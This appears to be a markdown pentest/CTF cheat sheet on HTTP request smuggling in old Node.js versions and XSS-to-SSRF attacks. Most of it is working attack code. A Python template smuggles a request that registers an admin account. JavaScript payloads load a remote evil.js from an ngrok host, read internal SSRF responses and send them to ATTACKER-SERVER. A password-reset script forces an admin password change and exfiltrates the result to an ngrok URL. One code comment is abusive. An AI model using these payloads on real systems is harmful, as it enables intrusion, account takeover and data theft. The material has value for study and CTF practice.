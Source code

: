 # HTTP request smuggling
## Node 6.x and 8.x
[Node.js http module](https://translate.google.com/website?sl=auto&tl=en&hl=ar&u=https://github.com/nodejs/node/issues/13296) is vulnerable to this attack and can be abused to trigger an SSRF attack.
- Vulnerable code
```js
const http = require('http') const server = http.createServer((req, res) => { console.log(req.url); res.end(); }); server.listen(8000, function() { http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() { }); });
```
- Python template for abusing
```python
#!/usr/bin/python3
import requests

url = "http://134.209.23.209:31246/api/weather" # Change
proxy = {"http":"http://127.0.0.1:8080"}

"""Smuggled request options"""
Method = "post".upper() # Change
endpoint_to_smuggle = "/register" # Change
host_to_smuggle = "127.0.0.1" # Change
post_data_to_smuggle = f"""username=admin&password=admin""" # Change
post_data_to_smuggle = post_data_to_smuggle.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
content_length = len(post_data_to_smuggle)

if Method == "POST":
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) + '\u010D\u010A\u010D\u010A' + post_data_to_smuggle + '\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'
else:
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120/' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) +'\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'

"""Sending payload"""
Post_data = json={'endpoint': '127.0.0.1/'+ smuggle, 'city': 'chengdu', 'country': 'CN'} # Change (must be json to avoid unicode shit or send it by hand with burp then kill yourself.)
req = requests.post(url,data=Post_data , proxies=proxy)
print("[@] Status Code: ", req.status_code)
print("[@] Response Body ", req.text)
```
> **References:**
> 1. https://www-rfk-id-au.translate.goog/blog/entry/security-bugs-ssrf-via-request-splitting
> 2. https://hackerone.com/reports/409943

# SSRF
Include Js file via xss
```js
<script src="http://b9f2-109-107-226-121.ngrok.io/evil.js"></script>
```
Leveraging XSS to SSRF
```js
var request1 = new XMLHttpRequest();
request1.open('GET', "<SSRF-URL>", false);
request1.send()
var response1 = request1.responseText;
var request2 = new XMLHttpRequest();
request2.open('GET', 'http://ATTACKER-SERVER/?meow=' + response1, true);
request2.send()
```
> **Another script**: https://github.com/Crypto-Cat/CTF/blob/main/ctf_events/nahamcon_22/web/two_for_one/2fa_exfil.js

Reset password
```js
// Reset admin password
var http = new XMLHttpRequest();
var url = 'http://challenge.nahamcon.com:30666/reset_password';
// To json because it was required by the server...remove when not needed
var data = JSON.stringify({
'password':'admin',
'password2':'admin',
'otp':'661035',
});
http.open('POST', url, true);

// Not actually needed, just for debugging
http.onload = function () {
var flag = btoa(http.responseText);
var exfil = new XMLHttpRequest();
exfil.open("GET","http://b6a5-81-103-153-174.ngrok.io?flag=" + flag);
exfil.send();
};
http.setRequestHeader('Content-type', 'application/json');
http.send(data);
```
> **Taken from**: https://github.com/Crypto-Cat/CTF/blob/main/ctf_events/nahamcon_22/web/two_for_one/reset_pw.js